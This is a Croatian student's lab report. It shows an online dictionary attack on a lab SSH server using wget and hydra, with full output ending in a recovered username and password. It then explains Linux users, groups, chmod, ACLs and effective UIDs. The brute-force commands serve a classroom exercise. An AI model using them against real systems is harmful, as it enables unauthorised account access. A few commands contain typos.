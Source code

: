 # Peta i šesta laboratorijska vježba

## **Peta vježba**

Kroz ovu vježbi smo radili online password guessing attack. Probali smo koristeći unaprijed definirani dictionary pronaći lozinku iz njega koja se podudara s mojim korisničkim imenom na Docker containeru. S obzirom da smo radili online napad aktivno smo kontaktirali server i pokušavali se prijaviti direktno na određenu IP adresu.

```bash
Microsoft Windows [Version 10.0.19043.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Users\A507>wsl
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ wget -r -nH -np --reject "index.html*" http://a507-server.locary/g3/dictionar
--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/
Resolving a507-server.local (a507-server.local)... 10.0.1.172, fe80::aaa1:59ff:fe69:5278
Connecting to a507-server.local (a507-server.local)|10.0.1.172|:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘dictionary/g3/index.html.tmp’

dictionary/g3/index.html.tmp      [ <=>                                              ]   4.59K  --.-KB/s    in 0s

2022-01-11 11:03:36 (259 MB/s) - ‘dictionary/g3/index.html.tmp’ saved [4700]

Loading robots.txt; please ignore errors.
--2022-01-11 11:03:36--  http://a507-server.local:8080/robots.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 404 Not Found
2022-01-11 11:03:36 ERROR 404: Not Found.

Removing dictionary/g3/index.html.tmp since it should be rejected.

--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/dictionary_offline.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 200 OK
Length: 350546 (342K) [text/plain]
Saving to: ‘dictionary/g3/dictionary_offline.txt’

dictionary/g3/dictionary_offl 100%[=================================================>] 342.33K  --.-KB/s    in 0.03s

2022-01-11 11:03:36 (11.7 MB/s) - ‘dictionary/g3/dictionary_offline.txt’ saved [350546/350546]

--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/dictionary_online.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 200 OK
Length: 3346 (3.3K) [text/plain]
Saving to: ‘dictionary/g3/dictionary_online.txt’

dictionary/g3/dictionary_onli 100%[=================================================>]   3.27K  --.-KB/s    in 0s

2022-01-11 11:03:36 (287 MB/s) - ‘dictionary/g3/dictionary_online.txt’ saved [3346/3346]

FINISHED --2022-01-11 11:03:36--
Total wall clock time: 0.09s
Downloaded: 3 files, 350K in 0.03s (12.0 MB/s)

student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hydra -l jukic_marija -P dictionary/g3/dictionary_online.txt 10.0.15.0 -V -t
4 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-01-11 11:05:27
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 478 login tries (l:1/p:478), ~120 tries per task
[DATA] attacking ssh://10.0.15.0:22/
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtal" - 1 of 478 [child 0] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajpgz" - 2 of 478 [child 1] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtnj" - 3 of 478 [child 2] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajplk" - 4 of 478 [child 3] (0/0)
....
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtlp" - 331 of 478 [child 0] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtgz" - 332 of 478 [child 2] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "cowona" - 333 of 478 [child 3] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "thened" - 334 of 478 [child 1] (0/0)
[22][ssh] host: 10.0.15.0   login: jukic_marija   password: thened
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-01-11 11:11:04
```

Uspjela sam pronaći lozinku koja je bila unutar dictionaryja koja se podudarala s lozinkom na docker containeru s mojim imenom. Nažalost statistika nije bila na mojoj strani, pa se moja lozinka nalazila na drugoj polovici dictionaryja pa je za pronalazak podudaranja trebalo malo više vremena.

S obzirom na ograničeno vrijeme nismo stigli napraviti offline password guessing attack.

## Šesta vježba

Kroz ovu vježbu smo učili kako upravljati korisničkim računima na linuxu, odnosno istraživali smo kontrolu pristupu.

U Linux-u svaka datoteka ili program (binary executable file) ima vlasnika (user or owner). Svakom korisniku pridjeljen je jedinstveni identifikator User ID (UID). Svaki korisnik mora pripadati barem jednoj grupi (group), pri čemu više korisnika može dijeliti istu grupu. Linux grupe također imaju jedinstvene identifikatore Group ID (GID).
S id provjeravamo identifikatore uid i gid za korisnika te pripadnost grupama.
Kad koristimo sudo to nam daje administratorska prava tj. s time dokazujemo da pripadamo grupi sudo.
```bash
sudo adduser alice3
sudo adduser bob3
```
S ovom komandom kreiramo nove korisnike koji pripadaju određenim grupama i imaju određeni uid i guid.
Da bi ušli u ove korisničke račune koristimo sljedeću naredbu:
```bash
sudo - alice3
exit
```
Exit koristimo unutar shella korisnika za vraćanje na shell s administratorskim ovlastima.
Česte linux komande su mkdir za kreiranje novih direktorija, cd za ulazak ili cd.. za izlazak iz nekog direktorija, za ispis nekog filea koristimo cat.
Kreiramo neki file s tekstom na sljedeći način:
```bash
echo "Hello world" > security.txt
```
Naredbama ls -l ili getfacl prikazujemo informacije o direktoriju i datotekama
```bash
alice3@DESKTOP-7Q0BASR:~/SRP$ getfacl security.txt
file: security.txt
owner: alice3
group: alice3
user::rw-
group::rw-
other::r--
```
Za file security.txt alice3 može čitati i pisati unutar njega kao i user. Dok svi ostali korisnici mogu samo čitati taj file.
Za mijenjanje dopuštenih prava koristimo se naredbom chmod možemo raditi sljedeće: želimo li dodati ili maknuti pravo(+ ili -) te ovisno koje pravo(r(ead),w(rite),e(x)ecute).
Primjer kako to funkcionira u kodu:
```bash
# Remove both (u)ser and (g)roup (w)rite permission
chmod ug-w security.txt
```
Nakon isprobavanja chmod naredbe radili smo inspekciju i promjene ACL(Access Control Lists) resursa pomoću getfacl i setfacl. To smo pokazali na primjeru security.txt u čiju smo ACL datoteku dodali Boba kao novog korisnika s r(ead) ovlasti.
```bash
setfacl -m u:bob:r security.txt
```
Za ukloniti Boba da nema pristup security.txt radi se na sljedeći način:
```bash
setfacl -x u:bob security.txt
```
Osim kontrole pristupa s ACL-om i dodavanjem pristupa zasebnim korisnicima, pristup možemo dati i grupama iz kojih se mogu ukloniti ili dodati korisnici.Svi pripadnici neke grupe imaju specifičnu ulogu odnosno zadatke koje mogu i trebaju obavljati nad datotekama.
Grupe se kreiraju po sljedećoj naredbi:
```bash
groupadd alice_reading_group
```
Posljednje što smo radili je proučavali kako kontrola pristupa gleda na programe koji se izvode.
Unutar python smo kreirali sljedeći program tj. skriptu:
```python
import os

print('Real (R), effective (E) and saved (S) UIDs:') 
print(os.getresuid())

with open('/home/alice/srp/security.txt', 'r') as f:
    print(f.read())
```
Prije ovoga smo provjerili da korisnik Bob ima pristup datoteci security.txt te da korisnik student nema pravo pristupa.
Nakon toga smo probali pokreniti skriptu kao student te i dalje nismo mogli pristupi datoteci security.txt. Kad smo istu skriptu probali pokrenuti kao korisnik Bob dobili smo pristup security.txt. Ovo se dogodilo jer za pristup datoteci se gleda id korisnika te ima li taj korisnik pristup datoteci, a ne tko je kreirao skriptu.
